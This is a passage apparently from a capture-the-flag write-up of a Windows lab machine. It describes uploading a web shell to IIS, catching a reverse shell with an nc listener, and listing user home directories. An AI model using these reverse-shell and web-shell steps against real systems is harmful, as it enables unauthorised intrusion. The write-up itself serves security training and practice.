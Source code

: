 [![image-20221109122225232](https://0xdfimages.gitlab.io/img/image-20221109122225232.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221109122225232.png)

Because this executed all within the context of the IIS process, it should be
able to succeed where my attempts via PowerShell and `nc64.exe` were blocked.
I’ll upload it:

![image-20221109122318968](https://0xdfimages.gitlab.io/img/image-20221109122318968.png)

On pushing “Connect Back Shell”, I get a shell at `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 9999
    Listening on 0.0.0.0 9999
    Connection received on 10.10.11.147 50060
    Shell enroute.......
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>whoami
    windcorp\web
    

## SMB as BeatriceMill

### Enumeration

#### Home Directories

There’s nothing of interest in `C:\users\web`. There are several other users
with home directories:

    
    
    c:\Users>dir
     Volume in drive C has no label.
     Volume Serial Number is BE61-D5E0
    
     Directory of c:\Users
    
    02/16/2022  10:00 PM    <DIR>          .
    02/15/2022  09:04 PM    <DIR>          .NET v4.5
    02/15/2022  09:04 PM    <DIR>          .NET v4.5 Classic
    10/05/2021  05:44 PM    <DIR>          AbbyMurr
    03/25/2022  03:51 PM    <DIR>          Administrator
    10/01/2021  05:49 PM    <DIR>          BeatriceMill
    10/03/2021  04:13 PM    <DIR>          bpassrunner
    03/21/2022  02:48 PM    <DIR>          GinaWild
    09/24/2021  07:26 AM    <DIR>          Public
    03/17/2022  02:46 PM    <DIR>          web
                   0 File(s)              0 bytes
                  10 Dir(s)   9,256,456,192 bytes free
    

web can’t access any of them.
